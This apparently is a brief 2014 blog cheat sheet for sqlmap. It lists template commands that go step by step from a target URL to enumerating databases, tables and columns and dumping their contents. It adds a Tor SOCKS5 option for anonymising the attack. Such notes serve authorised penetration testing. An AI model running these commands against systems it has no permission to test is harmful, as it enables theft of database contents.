 Title: sqlmap Cheat Sheet  
Date: 2014-12-01 05:04  
Author: m157q  
Category: Security  
Tags: SQL, SQL Injection, sqlmap  
Slug: sqlmap-cheat-sheet  
  
  
# Usage  
  
+ `$ sqlmap -u ${url}`  
+ `$ sqlmap -u ${url} --dbs`  
+ `$ sqlmap -u ${url} -D ${database} --tables`  
+ `$ sqlmap -u ${url} -D ${database} -T ${table} --columns`  
+ `$ sqlmap -u ${url} -D ${database} -T ${table} -C ${col1},${col2} --dump`  
  
  
# Options  
  
+ `--tor --tor-type=SOCKS5`  
  
  
# References  
  
+ [sqlmap注入常见用法一条龙](http://www.nigesb.com/sqlmap-common-usage-and-examples.html)  
+ [sqlmap - Usage](https://github.com/sqlmapproject/sqlmap/wiki/Usage)  
+ [An Old man lab0ratory: Sqlmap tutorial - you are just unavoidable](http://oldmanlab.blogspot.tw/2012/03/sqlmap-tutorial-you-are-just.html)  
